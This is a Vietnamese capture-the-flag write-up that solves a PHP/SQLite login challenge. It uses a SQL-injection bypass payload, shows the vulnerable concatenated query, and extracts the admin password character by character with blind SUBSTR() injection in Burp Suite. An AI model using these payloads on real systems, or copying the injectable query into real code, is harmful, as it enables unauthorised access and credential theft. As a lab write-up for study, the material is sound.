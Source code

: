 ## Bài 1:
* Đầu tiên khi mở bài lên ,chúng ta thấy 1 form đăng nhập
* Thử nhập ID bằng SQLi Injection với payload là ID=""' OR 1=1 --
* Ta thu về được : 

``` html
 Congratulations!
It's too easy?
Don't worry.
The flag is admin's password.

Hint:

<?php
    function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}
    
    $id = isset($_POST['id']) ? $_POST['id'] : '';
    $pass = isset($_POST['pass']) ? $_POST['pass'] : '';
    $login = false;
    $err = '';
    
    if ($id!=='')
    {
        $db = new PDO('sqlite:database.db');
        $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
        $login = $r && $r->fetch();
        if (!$login)
            $err = 'Login Failed';
    }
?><!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6</title>
  </head>
  <body>
    <?php if (!$login) { ?>
    <p>
      First, login as "admin".
    </p>
    <div style="font-weight:bold; color:red">
      <?php echo h($err); ?>
    </div>
    <form method="POST">
      <div>ID: <input type="text" name="id" value="<?php echo h($id); ?>"></div>
      <div>Pass: <input type="text" name="pass" value="<?php echo h($pass); ?>"></div>
      <div><input type="submit"></div>
    </form>
    <?php } else { ?>
    <p>
      Congratulations!<br>
      It's too easy?<br>
      Don't worry.<br>
      The flag is admin's password.<br>
      <br>
      Hint:<br>
    </p>
    <pre><?php echo h(file_get_contents('index.php')); ?></pre>
    <?php } ?>
  </body>
</html>
```
* Theo như đoạn code , ta thấy flag là mật khẩu của ID=admin
* Trước tiên,sử dụng burpsuite để check độ dài của password với payload id=' OR LENGTH(pass)=§§;--&pass=
* Ta thu được độ dài mật khẩu bao gồm 21 kí tự 
* Sau khi thu được độ dài mật khẩu , ta sử dụng payload :
- id=admin' and SUBSTR((SELECT pass FROM user WHERE id='admin'),§§,1)='§§';--&pass=
* Payload set 1 cho chạy từ 1 đến 21 ứng với từng vị trí trong mật khẩu 
* Payload set 2 sử dụng brute force cho chạy từ a-z0-9 để lấy được giá trị mật khẩu ở từng vị trí
* Sau khi chạy xong , ta sắp xếp mật khẩu và thu được flag : flag_kpwa4ji3uzk6trpk
* Nhưng khi submit thì ko được , điều này tức là do trong pass có cả kí tự viết hoa 
* Chạy lại burt suite nhưng thay payload 2 thành từ a-z0-9A-Z và ta thu được flag :
-  FLAG_KpWa4ji3uZk6TrPK 

